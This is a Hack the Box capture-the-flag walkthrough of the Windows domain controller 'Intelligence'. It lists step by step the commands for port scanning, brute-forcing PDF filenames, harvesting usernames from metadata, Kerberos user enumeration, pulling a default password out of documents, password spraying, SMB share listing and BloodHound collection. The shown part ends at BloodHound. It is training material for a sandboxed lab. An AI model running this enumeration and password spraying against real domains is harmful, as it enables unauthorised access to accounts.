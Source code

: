 # Hack the Box - Intelligence

```CSS
Nachine IP: 10.10.10.248
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.248 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.248
Host is up (0.18s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49707/tcp open  unknown
49714/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 304.78 seconds
```

```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49707,49714 10.10.10.248 -oN nmap.deep

Nmap scan report for 10.10.10.248                                                                                                                                           
Host is up (0.18s latency).                                                                                                                                                 
                                                                                                                                                                            
PORT      STATE SERVICE       VERSION                                                                                                                                       
53/tcp    open  domain        Simple DNS Plus                                                                                                                               
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                      
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                    
|_http-title: Intelligence                                                                                                                                                  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-10 09:15:40Z)                                                                                
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                         
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.                                                                                                         
| ssl-cert: Subject: commonName=dc.intelligence.htb                                                                                                                         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb                                                                         
| Not valid before: 2021-04-19T00:43:16                                                                                                                                     
|_Not valid after:  2022-04-19T00:43:16                                                                                                                                     
445/tcp   open  microsoft-ds?                                                                                                                                               
464/tcp   open  kpasswd5?                                                                                                                                                   
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                           
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-10T09:16:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.93 seconds
```

---

## HTTP Port #80
  - Homepage
![image](https://user-images.githubusercontent.com/83878909/230812679-60dfc045-321b-4e62-b577-3006e048ab79.png)

  - Announcement Document
![image](https://user-images.githubusercontent.com/83878909/230812932-cad5e527-0fd3-40b5-a09e-62a087f9aebd.png)

  - Other Document
![image](https://user-images.githubusercontent.com/83878909/230813172-f7359efc-a356-4629-9a8a-64564ee6cb07.png)

---

## Brute-Force PDF Filenames
  - Create a wordlist to brute-force the `date`, maybe some other documents exist.
```CSS
▶ for i in $(seq $(date -d "2020-01-01" +%s) 86400 $(date -d "2021-05-15" +%s)); do date -d @$i "+%Y-%m-%d-upload.pdf"; done > files.txt
```
- Brute-Force the filename.
```CSS
▶ for i in $(cat files.txt); do wget http://10.10.10.248/documents/$i; done
```
  - Files found.
![image](https://user-images.githubusercontent.com/83878909/230816862-cc30d963-0b39-4c13-b2cc-7e89e51206b3.png)

---

## Exiftool PDF Meta-data
  - PDF files meta-data.
![image](https://user-images.githubusercontent.com/83878909/230817269-96fbdaa8-e0a4-48e0-b13e-b00ef8405861.png)
  - Extract creator names from meta-dta of all the PDF files.
```CSS
▶ pdf exiftool *pdf | grep Creator | awk '{print $3}' | sort -u > creators.txt
```
```CSS
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

---

## Kerbrute Validate Usernames
```CSS
▶ kerbrute userenum creators.txt --dc 10.10.10.248 -d intelligence.htb
```
![image](https://user-images.githubusercontent.com/83878909/230821076-266f1262-a0a6-4d35-bd21-025be8a3c845.png)

---

## Sensitive Information (Passwords)
  -  Convert all `pdf` files to `text`.
```CSS
▶ for i in $(ls); do pdftotext $i; done
```

  - Passwords
```CSS
▶ cat *.txt | grep -i password -B5 -A5
```
![image](https://user-images.githubusercontent.com/83878909/230822841-3abc40df-e706-4d56-8fbe-1c1b6a0fcab9.png)
  - Password: `NewIntelligenceCorpUser9876`

---

## Kerbrute Password Spray
```
▶ kerbrute userenum creators.txt NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb -v
```
![image](https://user-images.githubusercontent.com/83878909/230831769-4dfc3fc7-a2ab-4be5-a034-bbb67725fe2b.png)

---

## Attempt Logins
  - SMB Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```
![image](https://user-images.githubusercontent.com/83878909/230832417-7e22c44a-e4b7-4c57-8074-1f134362893b.png)

  - Winrm Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832825-500c2c4c-c5bc-408f-9054-ff525fc9189e.png)

---

## SMB Shares
  - List SMB Shares
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832582-d9290c11-90a7-4a0d-bd7a-fafde4a67b18.png)

---

## BloodHound
```
▶ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```
```CSS
▶ sudo neo4j console
```
```CSS
▶ bloodhound
```
  - Nothing interesting found about user `Tiffany.Molina`.
